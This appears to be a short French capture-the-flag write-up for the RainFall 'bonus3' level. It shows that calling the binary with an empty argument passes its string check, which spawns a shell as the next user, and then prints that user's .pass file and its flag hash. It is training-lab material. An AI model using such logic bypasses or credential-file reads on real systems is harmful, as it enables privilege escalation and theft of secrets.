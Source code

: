 On observe un programme nous demandant un argument:

```
bonus3@RainFall:~$ ls
bonus3
bonus3@RainFall:~$ ./bonus3
bonus3@RainFall:~$ ./bonus3 test

bonus3@RainFall:~$ ./bonus3 test test2
bonus3@RainFall:~$ ./bonus3 test test2 test3
bonus3@RainFall:~$
```

Après avoir compris le code, il suffit que argv[1] == str[atoi(av[1])] pour lancer l'executable.

Il suffit que les 2 soient null car atoi("") = 0

donc :

```
./bonus3 ""
$ whoami
end
cat /home/user/end/.pass
3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
```
